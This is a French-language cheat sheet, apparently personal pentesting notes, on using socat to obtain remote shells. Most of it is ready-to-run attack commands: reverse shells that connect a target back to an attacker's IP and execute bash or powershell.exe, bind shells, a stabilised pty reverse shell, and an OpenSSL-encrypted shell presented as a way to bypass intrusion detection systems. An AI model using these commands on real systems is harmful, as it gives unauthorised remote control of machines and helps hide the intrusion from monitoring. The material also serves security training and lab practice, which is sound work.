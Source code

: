 
## __Reverse shell__

[Binaire précompilé de socat](Binaries##__Linux__###x86-64####Socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

Les **shells chiffré** sont très utile pour **bypass les IDS** car ils ne peuvent **pas être lue** à part si l'on a la **clé de déchiffrement**.

La **syntaxe** pour les shells encrypté n'est pas différente à l'exception que le mot clé **TCP** est remplacé par **OPENSSL**.

Notez qu'on peut combiner cette syntaxe avec celle de [[Socat#__Stable Reverse shell__]]

#### 1- Générer le certificat -- Notre machine

```shell
user@ip: ~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Crée une **clé RSA de 2048 bits** dans un fichier **shell.key** et un **certificat correspondant** valide pendant 362 jours dans **shell.crt**.

#### 2- Fusion des clé et certificats -- Notre machine

```shell
user@ip: ~$ cat shell.key shell.crt > shell.pem
```

Fusion des 2 fichiers dans un fichier **shell.pem**.

#### 3- Listener -- Notre machine

```shell
user@ip: ~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

**verify=0** indique qu'on ne veut **pas valider** que notre certificat a été signé par une **autorité reconnue**.

#### 4- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

